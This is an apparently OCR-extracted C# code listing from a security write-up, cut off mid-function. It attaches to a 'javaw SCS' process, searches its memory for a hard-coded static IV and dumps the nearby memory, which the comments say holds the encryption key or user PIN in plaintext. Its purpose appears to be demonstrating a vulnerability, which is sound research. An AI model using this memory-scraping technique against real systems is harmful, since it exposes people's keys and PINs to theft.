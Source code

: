 \begin{lstlisting}
        // Hook the javaw SCS process and obtain its base address
        public bool hookProcess( String processName )
        {
            Process[] p = Process.GetProcessesByName( processName );
            if ( p.Length > 0 )
            {
                readMem = new ReadMem( p[0] );
                basePtr = p[0].MainModule.BaseAddress;

                return true;
            }
            else
            {
                return false;
            }
        }

        // Close process handle
        public bool closeHandle()
        {
            if (readMem != null)
            {
                return readMem.CloseHandle();
            }

            else
            {
                return false;
            }
        }

        // Scan memory for a certain value and dump the memory around it
        public void scanMemory()
        {
            // Define the value (byte sequence) to look for in memory (in this case the first 8 bytes of the static IV, ASCII encoded)
            Int64 searchValue = BitConverter.ToInt64(Encoding.ASCII.GetBytes("fedcba9876543210"), 0);
            // Int64 searchValue = 4051376414998685030; // equals "fedcba98" 
            
            // Initialize memory scanner, passing starting and ending address, search value and an instance of the low level memory reader
            MemoryScanner memoryScanner = new MemoryScanner(readMem, (IntPtr)addressBegin, (IntPtr)addressEnd, searchValue);
            
            // Subscribe to progress change events
            memoryScanner.ProgressChanged += new MemoryScanner.ProgressChangedEventHandler(memoryScanner_ProgressChanged);
            
            // Subscribe to message events
            memoryScanner.MessagePending += new MemoryScanner.MessagePendingEventHandler(memoryScanner_MessagePending);

            // Scan memory
            memoryScanner.scan();

            // Dump memory around the found occurences (likely to contain encryption key / user pin in plaintext)
            dumpMemoryArea(memoryScanner.FoundAddresses);
        }

        // Dump the memory around a certain address (showing that it contains sensitive information in plain text)
        public void dumpMemoryArea(List<int> addresses)
        {
            foreach (int address in addresses) 
            {
                MessagePending(this, new MemoryScanner.MessagePendingEventArgs(address.ToString("X") + ".txt >    Dumping memory area for address " + address.ToString("X") + " to file.", true));


\end{lstlisting}
